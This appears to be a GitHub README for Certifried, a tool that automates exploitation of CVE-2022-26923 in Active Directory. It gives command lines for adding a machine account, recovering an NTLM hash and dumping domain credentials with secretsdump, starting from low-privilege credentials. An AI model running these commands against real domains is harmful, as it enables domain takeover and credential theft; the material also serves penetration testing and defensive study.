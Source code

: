 # Certifried 

## Why Certifried?
Certifried makes steps easier to replicate to abuse the new CVE-2022-26923. However below is the manual steps to replicate the vulnerability. Detailed article can be read [here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) from the original author.

## Usage
1. Just add computer and update neccessary attributes
```
python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10
```
1. Recover NTLM hash
```
python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 -use-ldap
```
2. Proceed with secretsdump
```
python3 certifried.py domain.com/lowpriv:'Password1' -dc-ip 10.10.10.10 -computer-name 'ControlledComputer' -computer-pass 'Password123' -use-ldap -dump
```
_Note: If you received an error of Name Service not found, you might wanna add target ip to /etc/hosts_

## Credits 
* https://github.com/dirkjanm/PKINITtools
* https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py
* https://github.com/eloypgz/certi
* https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4

